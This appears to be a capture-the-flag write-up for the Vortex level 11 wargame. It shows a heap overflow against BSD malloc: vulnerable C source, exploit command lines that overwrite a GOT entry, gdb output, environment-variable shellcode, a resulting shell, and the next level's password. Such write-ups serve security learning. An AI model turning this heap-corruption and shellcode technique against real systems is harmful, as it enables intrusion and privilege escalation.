 
we must find a way to overwrite the pointer s to the return address, then redirect to a payload.  
do do so, we must find a way to corrupt the heap so that s will be pointed to the return addres memory, let's dig in the malloc code:  
we discover that malloc() uses imalloc(), which uses malloc_bytes() in the event of a small allocation (0xf is small)  
we find our answer in here: http://www.ouah.org/BSD-heap-smashing.txt  

with not much knowledge, we can see that the mallocs in this vortex11.c is shaped exactly as in the POC 1 in the link, so we want to overwrite the pginfo struct of the second page (description below):
'''c
#include <stdio.h>
#include <string.h>


int main(int argc, char **argv) {
        char *p;
        char *q;
        char *r;
        char *s;
        if (argc < 3)					//must include 2 args...
        {
                exit(0);
        }
        p = (char *) malloc(0x800);		//first page part1 (half page)
        q = (char *) malloc(0x10);		//second page part1 (tiny page)
        r = (char *) malloc(0x800);		//first page part2 (half page) - overflow this segment to overwrite pginfo
        strcpy(r , argv[1]);			//overflow
        s = (char *) malloc(0x10);		//allocate according to corrupt pginfo --> should point to ret addr
        strncpy(s , argv[2], 0xf);		//overwrite the return addr with desired payload addr - let's say env variable
        exit(0);
}
'''
  
preparing payloads: ./vortex11 $(python -c 'print "A"*0x800+"BBBB"+"CCCC"') $(python -c 'print "ADDR"')  
need to replace CCCC with ret addr, ADDR with payload addr...  
verifing that it works:
'''bash
(gdb) info reg
eax            0x43434383       1128481667
ecx            0x0      0
edx            0x43434343       1128481603
ebx            0xf7fcd000       -134426624
esp            0xffffcee0       0xffffcee0
ebp            0xffffcf08       0xffffcf08
esi            0x0      0
edi            0x0      0
eip            0x8049e43        0x8049e43 <main+111>
eflags         0x246    [ PF ZF IF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
'''
I chose to overwrite exit@plt.got table entry, which is located in: 0x804c008 (-0x40) = 0x0804bfc8  
$EGG = <payload>  
figuring out the address of envp via a simple c code we get: ffffe91f : EGG=��������������������������������������������������1�Ph//shh/bin��PS��1�1ɰ  
finally, after some trial and error:  
/vortex/vortex11 $(python -c 'print "A"*0x800+"BBBB"+"\xc7\xbf\x04\x08"') $(python -c 'print "x\05\xd9\xff\xff"')  

'''bash
$ whoami
vortex12
$ cat /vortex_pass/vortex12
cat: /vortex_pass/vortex12: No such file or directory
$ cat /etc/vortex_pass/vortex12
nKV95q]dx
$ exit
'''
password: nKV95q]dx


